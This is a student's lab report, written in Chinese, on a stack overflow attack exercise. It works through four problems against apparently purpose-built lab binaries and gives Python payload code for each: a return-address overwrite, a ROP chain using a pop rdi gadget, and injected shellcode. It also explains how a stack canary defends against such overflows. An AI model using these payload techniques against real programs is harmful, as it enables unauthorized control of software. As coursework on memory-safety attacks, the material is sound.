



# 栈溢出攻击实验

姓名：刘凡硕
学号：2024201536

## 题目解决思路


### Problem 1: 
- **分析**：
通过看汇编代码发现func函数中的strcpy是漏洞，汇编指令lea -0x8(%rbp),%rax表明缓冲区的起始地址位于rbp-0x8处，返回地址位于rbp+0x8处，所以我需要先填充16个字节，再按小端序填充返回地址。观察到func1有puts函数，是用来输出位于0x402004处的数据，我用gdb得到此处代码恰好是 "Yes!I like ICS!"，所以需要填入的地址是0x401216.
- **解决方案**：
```py
padding = b"A" * 16 
func1_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding+ func1_addr
```
- **结果**：

### Problem 2:
- **分析**：
func中调用memcpy有漏洞，因为它读入的数据长度为0x38，发生了栈溢出。需要跳转到func2,但是func2需要edi传入一个参数，当参数值等于0x3f8时才会调用printf函数打印出Yes!I like ICS!。因为memcpy的输入存到rbp-0x8处，返回地址在rbp+0x8处，所以首先需要填充16字节。然后我需要使得rdi里面的值为0x3f8，所以我先跳转到0x4012c7,通过pop %rdi来修改rdi的值为0x3f8，然后接下来执行ret，所以紧接着func2地址0x401216就可以输出Yes!I like ICS!了。因为memcpy的输入存到rbp-0x8处，返回地址在rbp+0x8处，所以首先需要填充16字节。
- **解决方案**：
```py
padding = b"A" * 16
pop_rdi_ret = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
arg_val = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + pop_rdi_ret + arg_val + func2_addr
```
- **结果**：


### Problem 3: 
- **分析**：
利用func中调用memcpy的漏洞来攻击。调用func1来攻击，分析得到func1接收一个参数，如果这个参数为114，则输出Your lucky number is 114。但是查看汇编代码中没有像problem2的pop %edi，所以手动写出将114赋给edi然后跳转到func1的代码，得到shellcode。因为memcpy读入的值存入rbp-0x20处，返回地址存在rbp+0x8，所以中间的40-len(shellcode)个字节全部填充起来，返回地址处填入jmp_xs的地址，因为jmp_xs将rax的值改为saved_rsp+0x10，因为在func中save_rsp为rbp-0x30，所以执行完jmp_xs后rax就改为了rbp-0x20，正好可以执行shellcode。
- **解决方案**：
```py
shellcode = b"\xbf\x72\x00\x00\x00" + b"\x48\xc7\xc0\x16\x12\x40\x00" + b"\xff\xd0"
padding_len = 40 - len(shellcode)
padding = b"A" * padding_len
jmp_xs_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00"
payload = shellcode + padding + jmp_xs_addr
```
- **结果**：

### Problem 4: 
- **分析**：
在func函数刚开始执行时，程序读取一个随机数，并将其保存在栈上rbp-0x8的位置,紧邻保存的旧基址指针（rbp）和返回地址。如果通过溢出局部变量来覆盖返回地址，必然会先覆盖掉位于rbp-0x8的Canary值。在函数准备返回之前，程序会重新读取栈上rbp-0x8的值，并与原随机数进行比对。如果比较结果不相等，程序将直接调用__stack_chk_fail报错并终止。
- **解决方案**：
分析汇编代码，main函数首先输出hi please tell me what is your name?，然后要求输入，再输出hi! do you like ics?，然后要求输入，再输出if you give me enough yuanshi,I will let you pass!，并要求输出，然后调用func，将第三次的输入作为参数，如果输入的参数等于0xffffffff,则调用func1，实现攻击。
- **结果**：

## 思考与总结

通过这个lab我学习了栈溢出攻击，ROP链攻击和金丝雀防御机制。有一些攻击方法很巧妙，比如problem3通过调用jmp_xs来修改PC值，让CPU执行自己写的攻击指令。收获很大。

## 参考资料
无